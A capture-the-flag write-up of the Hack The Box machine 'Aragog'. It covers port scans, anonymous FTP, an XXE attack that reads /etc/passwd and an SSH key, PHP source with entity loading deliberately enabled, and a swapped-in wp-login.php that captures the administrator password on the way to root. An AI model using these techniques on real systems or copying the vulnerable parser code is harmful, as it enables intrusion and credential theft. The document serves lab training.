


---
search:
  exclude: true
---
# Aragog Writeup

## Introduction :

Aragog is a Medium linux box released back in Febuary 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    λ nihilist [ 10.10.14.6/23 ] [~] 
    → nmap -F 10.10.10.78 --top-ports 10000
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-13 13:09 GMT
    Nmap scan report for 10.10.10.78
    Host is up (0.092s latency).
    Not shown: 8317 closed ports
    PORT   STATE SERVICE
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 54.94 seconds
    
    λ nihilist [ 10.10.14.6/23 ] [~] 
    → nmap -sCV -p21,22,80 10.10.10.78
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-13 13:10 GMT
    Nmap scan report for 10.10.10.78
    Host is up (0.090s latency).
    
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.10.14.6
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 1
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
    |   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
    |_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 21 running vsftpd 3.0.3 with anonymous login so let's investigate it:
    
    
    λ nihilist [ 10.10.14.6/23 ] [~] 
    → ftp 10.10.10.78
    Connected to 10.10.10.78.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.78:nihilist): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    -r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
    226 Directory send OK.
    ftp> get test.txt
    local: test.txt remote: test.txt
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for test.txt (86 bytes).
    226 Transfer complete.
    86 bytes received in 0.00 secs (52.6218 kB/s)
    ftp> exit
    221 Goodbye.
    
    

Now that we have downloaded the only textfile allowed to us we print out it's contents :
    
    
    λ nihilist [ 10.10.14.6/23 ] [~/_HTB/Aragorg] 
    → cat test.txt 
    <****details> <****subnet_mask>255.255.255.192 <****/subnet_mask> <****test> <****/test> <****/details>

Looks like we are hinted towards a particular subnet whose mask is /26 so let's move over to enumerating port 80 And for that matter we will be using dirb:
    
    
    λ nihilist [ 10.10.14.6/23 ] [~/_HTB/Aragorg] 
    → dirb http://10.10.10.78/ -X .php
    
    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------
    
    START_TIME: Fri Mar 13 13:36:52 2020
    URL_BASE: http://10.10.10.78/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]
    
    -----------------
    
    GENERATED WORDS: 4612                                                          
    
    ---- Scanning URL: http://10.10.10.78/ ----
    + http://10.10.10.78/hosts.php (CODE:200|SIZE:46)                                               
                                                                                                    
    -----------------
    END_TIME: Fri Mar 13 13:44:07 2020
    DOWNLOADED: 4612 - FOUND: 1
    
    λ nihilist [ 10.10.14.6/23 ] [~/_HTB/Aragorg] 
    → curl -sk http://10.10.10.78/hosts.php
    
    There are 4294967294 possible hosts for
    

Looking at the results, we seem to have found yet another thing related to subnetting just like that test.txt file we found. so let's catch the request with burpsuite's interceptor and see what we can do from there. 

From there we send the request over to the repeater so that we can modify it to contain the contents of the test.txt file we found on the ftp service earlier. 

From there, we change the "GET" method to a "POST" method and add test.txt's file contents : 

And we get a successful response! it looks like this is a subnet calculator, now since we have xml-like content we could assume that we can get some XXE. Let's verify that by sending in an infected payload to read /etc/passwd: 

And we seem to have an username to work with: , so let's try to print out his user flag. 

And that's it ! we have been able to print out the user flag.

## **Part 3 : Getting Root Access**

Now that we have the user flag let's try to get to access onto the system, To do so we'll first try to get the user florian's private ssh key, that is stored in /home/florian/.ssh/id_rsa

And we have it ! now let's save it locally, give it the necessary permissions and use it to login as the user florian : 
    
    
    λ nihilist [ 10.10.14.6/23 ] [~/_HTB/Aragorg] 
    → ssh -i id_rsa florian@10.10.10.78
    The authenticity of host '10.10.10.78 (10.10.10.78)' can't be established.
    ECDSA key fingerprint is SHA256:phu0FjQg/9nCmL2014AJ9yH4akvraA7Ea5QtE59wqD4.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.78' (ECDSA) to the list of known hosts.
    Last login: Fri Jan 12 13:56:45 2018 from 10.10.14.3
    
    florian@aragog:~$ id
    uid=1000(florian) gid=1000(florian) groups=1000(florian)
    
    florian@aragog:~$
    

Now since we know that this box has a server running let's see what'sin /var/www/html : 
    
    
    florian@aragog:~$ cd /var/www/html
    florian@aragog:/var/www/html$ ls
    dev_wiki  hosts.php  index.html  zz_backup
    florian@aragog:/var/www/html$ cat hosts.php
    <****?php
     
        libxml_disable_entity_loader (false);
        $xmlfile = file_get_contents('php://input');
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $details = simplexml_import_dom($dom);
        $mask = $details->subnet_mask;
        //echo "\r\nYou have provided subnet $mask\r\n";
    
        $max_bits = '32';
        $cidr = mask2cidr($mask);
        $bits = $max_bits - $cidr;
        $hosts = pow(2,$bits);
        echo "\r\nThere are " . ($hosts - 2) . " possible hosts for $mask\r\n\r\n";
    
        function mask2cidr($mask){  
             $long = ip2long($mask);  
             $base = ip2long('255.255.255.255');  
             return 32-log(($long ^ $base)+1,2);       
        }
    
    ?****>

Here is the php file we exploited earlier, but in order to escalate privileges we need to take a look into dev_wiki
    
    
    florian@aragog:/var/www/html$ cd dev_wiki
    florian@aragog:/var/www/html/dev_wiki$ ls
    index.php        wp-blog-header.php    wp-includes        wp-settings.php
    license.txt      wp-comments-post.php  wp-links-opml.php  wp-signup.php
    readme.html      wp-config.php         wp-load.php        wp-trackback.php
    wp-activate.php  wp-content            wp-login.php       xmlrpc.php
    wp-admin         wp-cron.php           wp-mail.php
    

Now let's see if we can access that wordpress website from the web browser : 

We get a 403 forbidden, but seeing that 10.10.10.78 got changed into aragog, we add the correct line in our /etc/hosts to be able to access the website : 

We see the wordpress website as expected, now let's see what's in the blog directory : 

Apparently the wordpress website files are regularly wiped out, and replaced back automatically, So let's replace wp-login.php with the custom php script that [Magnetik Online](https://github.com/magnetikonline) made: 
    
    
    <****?php
    // https://gist.github.com/magnetikonline/650e30e485c0f91f2f40
    
    class DumpHTTPRequestToFile {
    
    	public function execute($targetFile) {
    
    		$data = sprintf(
    			"%s %s %s\n\nHTTP headers:\n",
    			$_SERVER['REQUEST_METHOD'],
    			$_SERVER['REQUEST_URI'],
    			$_SERVER['SERVER_PROTOCOL']
    		);
    
    		foreach ($this->getHeaderList() as $name => $value) {
    			$data .= $name . ': ' . $value . "\n";
    		}
    
    		$data .= "\nRequest body:\n";
    
    		file_put_contents(
    			$targetFile,
    			$data . file_get_contents('php://input') . "\n"
    		);
    
    		echo("Done!\n\n");
    	}
    
    	private function getHeaderList() {
    
    		$headerList = [];
    		foreach ($_SERVER as $name => $value) {
    			if (preg_match('/^HTTP_/',$name)) {
    				// convert HTTP_HEADER_NAME to Header-Name
    				$name = strtr(substr($name,5),'_',' ');
    				$name = ucwords(strtolower($name));
    				$name = strtr($name,' ','-');
    
    				// add to list
    				$headerList[$name] = $value;
    			}
    		}
    
    		return $headerList;
    	}
    }
    
    
    (new DumpHTTPRequestToFile)->execute('./dumprequest.txt');
    
    
    florian@aragog:/var/www/html/dev_wiki$ rm -rf wp-login.php
    florian@aragog:/var/www/html/dev_wiki$ nano wp-login.php
    

Then wait a bit for the dumprequest.txt file to appear then print out it's contents : 
    
    
    florian@aragog:/var/www/html/dev_wiki$ cat dumprequest.txt
    POST /dev_wiki/wp-login.php HTTP/1.1
    
    HTTP headers:
    Host: 127.0.0.1
    Connection: keep-alive
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.18.4
    Cookie: wordpress_test_cookie=WP Cookie check
    
    Request body:
    pwd=%21KRgYs%28JFO%21%26MTr%29lf&wp-submit;=Log+In&testcookie;=1&log;=Administrator&redirect;_to=http%3A%2F%2F127.0.0.1%2Fdev_wiki%2Fwp-admin%2F
    

Now the interesting part here is " %21KRgYs%28JFO%21%26MTr%29lf " which is an URL encoded string that we can paste into burpsuite to decode to get the following string : !KRgYs(JFO!&MTr;)lf
    
    
    florian@aragog:/var/www/html/dev_wiki$ su
    Password: 
    shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
    sh: 0: getcwd() failed: No such file or directory
    
    root@aragog:/var/www/html/dev_wiki# cat /root/root.txt
    9aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

